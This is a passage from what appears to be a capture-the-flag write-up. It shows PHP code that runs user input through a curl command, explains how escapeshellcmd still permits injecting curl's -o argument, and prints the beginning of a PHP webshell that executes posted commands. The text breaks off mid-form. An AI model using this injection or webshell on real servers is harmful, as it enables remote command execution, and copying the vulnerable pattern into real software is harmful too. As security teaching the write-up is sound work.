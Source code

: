```
[CurlController.php]
public function execute($router) // This function handles POST requests to /api/curl
{
    $url = $_POST['ip'];

    if (isset($url)) {
        $command = new CommandModel($url);
        return json_encode([ 'message' => $command->exec() ]);
    }
}
```

```
[CommandModel.php]
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can see that whatever we send to the server will concatenated to the string `curl -sL` and executed. The front end only allows us to send a valid URL, but we can bypass that by crafting the request by hand. Another important consideration is that whatever input we give to the server, will be passed through `escapeshellcmd`, which makes it pretty much impossible to achieve RCE by just adding special characters. However, when looking at the documentation for this function, we can find this warning:

```
escapeshellcmd() should be used on the whole command string, and it still allows the attacker to pass arbitrary number of arguments. For escaping a single argument escapeshellarg() should be used instead.
```

This looks promising, because it tells us that this function is being misused. Our URL should clearly be escaped using `escapeshellarg`, as it represents a single argument to `curl`. This tells us we should start looking for some argument to `curl` that could be of use in our case, and a more or less obvious choice is `-o`. With `-o` we can feed the server a malicous URL containing a webshell written in php, and save it on the server itself for later use. And this is exactly what I did, this is the code that will be downloaded by curl:

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Webshell</title>
  </head>

  <body>
    <?php
    if ($_SERVER['REQUEST_METHOD'] == 'POST') {
      echo(exec($_POST['cmd']));
    }
    ?>
    
    <form action="/" method="POST">
      <input type="text" value="" name="cmd" />
```